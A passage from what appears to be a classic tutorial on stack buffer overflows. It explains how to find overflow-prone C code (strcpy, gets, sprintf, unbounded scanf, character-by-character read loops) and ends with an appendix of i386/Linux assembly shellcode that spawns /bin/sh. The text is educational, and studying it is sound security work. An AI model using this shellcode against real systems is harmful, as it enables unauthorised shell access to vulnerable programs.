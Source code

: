 On the first try!  It has certainly increased our odds.  Depending how 
much environment data the exploit program has compared with the program 
you are trying to exploit the guessed address may be to low or to high. 
Experiment both with positive and negative offsets.


Finding Buffer Overflows
---

As stated earlier, buffer overflows are the result of stuffing more
information into a buffer than it is meant to hold.  Since C does not have any
built-in bounds checking, overflows often manifest themselves as writing past
the end of a character array.  The standard C library provides a number of
functions for copying or appending strings, that perform no boundary checking.
They include: strcat(), strcpy(), sprintf(), and vsprintf(). These functions 
operate on null-terminated strings, and do not check for overflow of the 
receiving string.  gets() is a function that reads a line from stdin into 
a buffer until either a terminating newline or EOF.  It performs no checks for
buffer overflows.  The scanf() family of functions can also be a problem if 
you are matching a sequence of non-white-space characters (%s), or matching a 
non-empty sequence of characters from a specified set (%[]), and the array 
pointed to by the char pointer, is not large enough to accept the whole 
sequence of characters, and you have not defined the optional maximum field 
width.  If the target of any of these functions is a buffer of static size, 
and its other argument was somehow derived from user input there is a good
posibility that you might be able to exploit a buffer overflow.

Another usual programming construct we find is the use of a while loop to
read one character at a time into a buffer from stdin or some file until the
end of line, end of file, or some other delimiter is reached.  This type of
construct usually uses one of these functions: getc(), fgetc(), or getchar().
If there is no explicit checks for overflows in the while loop, such programs 
are easily exploited.

To conclude, grep(1) is your friend.  The sources for free operating
systems and their utilities is readily available.  This fact becomes quite
interesting once you realize that many comercial operating systems utilities
where derived from the same sources as the free ones.  Use the source d00d.

---

Appendix A
===

Shellcode for Different Operating Systems/Architectures
---


i386/Linux
------------------------------------------------------------------------------
        jmp    0x1f
        popl   %esi
        movl   %esi,0x8(%esi)
        xorl   %eax,%eax
	movb   %eax,0x7(%esi)
        movl   %eax,0xc(%esi)
        movb   $0xb,%al
        movl   %esi,%ebx
        leal   0x8(%esi),%ecx
        leal   0xc(%esi),%edx
        int    $0x80
        xorl   %ebx,%ebx
        movl   %ebx,%eax
        inc    %eax
        int    $0x80
        call   -0x24
        .string \"/bin/sh\"